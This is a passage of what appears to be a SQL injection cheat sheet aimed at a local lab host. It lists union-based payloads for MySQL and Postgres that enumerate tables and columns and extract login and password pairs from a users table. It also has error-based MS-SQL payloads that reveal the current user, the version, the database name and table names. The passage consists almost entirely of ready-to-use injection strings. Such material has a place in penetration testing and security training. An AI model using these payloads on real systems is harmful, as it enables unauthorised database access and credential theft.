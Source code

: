 ```
http://192.168.1.104/Less-1/?id=-1 union select 1, 2, table_name from information_schema.tables where table_schema="database_name"
```

**postgres**

```
http://192.168.1.104/Less-1/?id=-1 union select 1, 2, tablename from pg_tables where table_catalog="database_name"
```

#### Finding column names from a table

**mysql**

```
http://192.168.1.104/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_schema="database_name" and table_name="tablename"
```

**postgres**

```
http://192.168.1.104/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_catalog="database_name" and table_name="tablename"
```

#### Concatenate

Example:

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, login from users;`
`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, password from users;`

in one query

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, concat(login,':',password) from users;` **mysql**
`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, login||':'||password from users;` **postgres**

### Error Based SQLI (USUALLY MS-SQL)

#### Current user

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(user_name() as varchar(4096)))--`

#### DBMS version

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(@@version as varchar(4096)))--`

#### Database name

`http://192.168.1.104/Less-1/?id=-1 or db_name(0)=0 --`

#### Tables from a database

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U')--`

---